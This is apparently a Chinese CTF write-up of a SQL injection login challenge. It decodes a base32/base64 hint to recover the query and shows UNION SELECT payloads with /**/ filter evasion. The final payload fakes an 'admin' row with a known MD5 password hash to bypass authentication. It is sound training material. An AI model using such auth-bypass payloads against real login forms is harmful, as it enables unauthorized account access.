




# 知识点：

# 1.sql语句猜测

# 2.base32，base64解码

# 3.脑洞

### 当查询的数据不存在的时候，联合查询就会构造一个虚拟的数据。

列如：

select * from admin1 where username='a'union select null,null,null;



select * from admin1 where username='a'union select null,'admin','123';



当把null替换为字符串，联合查询就会将替换的字符串查询出来


# 1.search.php存在注释字符串

```javascript
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
```

全是大写，推测时base32

Base32使用了ASCII编码中可打印的32个字符**(大写字母A-Z和数字2~7)**对任意字节数据进行编码

解码之后再base64解码即可得到：

```javascript
select * from admin1 where username = '$name'
```


推测需要注入username.


# 2.测试过滤

发现union/**/select没有过滤。

且存在三个字段

```javascript
a'union select null,null,null--+
```




提示usrname错误，尝试是否有回显，发现过滤了括号()


# 3.推测后台代码为：

```javascript
<?php$row;
$pass=$_POST['pw'];
if($row['username']==’admin’){
if($row['password']==md5($pass)){ 
echo $flag; 
}else{ echo “wrong pass!”; 
}}
else{ echo “wrong user!”;}
```


# 4.此时推测应该不可以注入出数据，可以尝试联合查询的一个特性：

当查询的数据不存在的时候，联合查询就会构造一个虚拟的数据。


payload:

```javascript
name=0'union/**/select/**/0,'admin','202cb962ac59075b964b07152d234b70'--+&pw=123
```

202cb962ac59075b964b07152d234b70为123的MD5加密。联合查询查询的结果就为：

username:admin

password:202cb962ac59075b964b07152d234b70

此时即可登陆成功得到flag




